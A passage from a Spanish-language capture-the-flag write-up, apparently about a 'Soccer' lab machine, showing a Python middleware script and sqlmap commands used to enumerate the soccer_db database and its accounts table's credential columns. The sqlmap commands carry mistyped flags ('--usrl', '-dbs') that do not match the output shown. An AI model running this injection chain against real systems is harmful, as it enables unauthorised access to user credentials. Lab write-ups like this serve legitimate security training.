 Y las siguiente linea tambien debe ser cambiada...

```python
data = '{"employeeID":"%s"}' % message
# SUSTITUCION
data = '{"id":"%s"}' % message
```
Ya esta todo listo para lanzar nuestro script de python y redirigir el flujo para poder hacer el ataque ***SQL*** que posterior mente haremos con ***sqlmap*** nos ayudara en la automatizacion del proceso.

Ejecutamos python:

 ```bash
 ❯ python3 xploit.py

[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*

 ```
Una vez ya estamos en escucha con nuestro script de python iniciamos ***sqlmap***

```bash
sqlmap --usrl="http://localhost:8081/?id=1" --batch -dbs

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

Conseguimos conocer las bases de datos existentes *(buena noticia)* asi que proseguimos a ver que con tienela base de datos ***soccer_db*** que parece ser la mas prometedora.

```bash
sqlmap --usrl="http://localhost:8081/?id=1" --batch -D soccer_db -tables

Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```
Encontramos una tabla y buscaremos que columnas contiene.

```bash
sqlmap --usrl="http://localhost:8081/?id=1" --batch -D soccer_db -T accounts -columns

Database: soccer_db
Table: accounts
[4 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| email    | varchar(40) |
| id       | int         |
| password | varchar(40) |
| username | varchar(40) |
+----------+-------------+
```
